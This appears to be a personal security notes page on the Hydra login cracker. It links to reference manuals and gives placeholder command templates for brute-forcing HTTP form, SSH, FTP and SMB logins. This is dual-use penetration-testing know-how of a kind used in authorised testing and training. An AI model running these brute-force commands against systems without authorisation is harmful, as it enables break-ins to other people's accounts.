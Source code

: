 ```yaml
---
id: hydra
aliases: []
tags: []
---
```


# Hydra

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra) -
a parallelized login cracker which supports many different protocols

## Resources

- [Kali Linux Tools | Hydra](https://www.kali.org/tools/hydra/)
- [Arch manual pages - Hydra](https://man.archlinux.org/man/hydra.1.en)

## Usage

HTTP post form username crack
```sh
hydra -L {username_file} -p {test_password} {target_url} http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
```

Brute force SSH login
```sh
hydra -l {target_user} -P {password_list} {target_ip} ssh
```

Brute force FTP login
```sh
hydra -l {target_user} -P {password_list} {target_ip} ftp
```

Brute force SMB login
```sh
hydra -l {target_user} -P {password_list} {target_ip} smb -t 1
```
